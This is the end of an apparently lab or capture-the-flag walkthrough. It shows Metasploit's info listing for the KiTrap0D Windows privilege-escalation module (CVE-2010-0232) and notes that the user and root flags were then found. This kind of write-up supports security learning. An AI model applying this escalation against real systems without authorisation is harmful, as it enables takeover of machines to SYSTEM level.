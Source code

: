 Here's a little info on the exploit:

```
msf5 exploit(windows/local/ms10_015_kitrap0d) > info windows/local/ms10_015_kitrap0d

       Name: Windows SYSTEM Escalation via KiTrap0D
     Module: exploit/windows/local/ms10_015_kitrap0d
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2010-01-19

Provided by:
  Tavis Ormandy
  HD Moore
  Pusscat
  OJ Reeves

Available targets:
  Id  Name
  --  ----
  0   Windows 2K SP4 - Windows 7 (x86)

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION                   yes       The session to run this module on.

Payload information:

Description:
  This module will create a new session with SYSTEM privileges via the 
  KiTrap0D exploit by Tavis Ormandy. If the session in use is already 
  elevated then the exploit will not run. The module relies on 
  kitrap0d.x86.dll, and is not supported on x64 editions of Windows.

References:
  https://cvedetails.com/cve/CVE-2010-0232/
  OSVDB (61854)
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2010/MS10-015
  https://www.exploit-db.com/exploits/11199
  https://seclists.org/fulldisclosure/2010/Jan/341
```

Follow the links there at the bottom for some interesting reading that will glaze your eyes over. Anyway, I was able to find both user and root flags in their respective Desktop directories. Done.
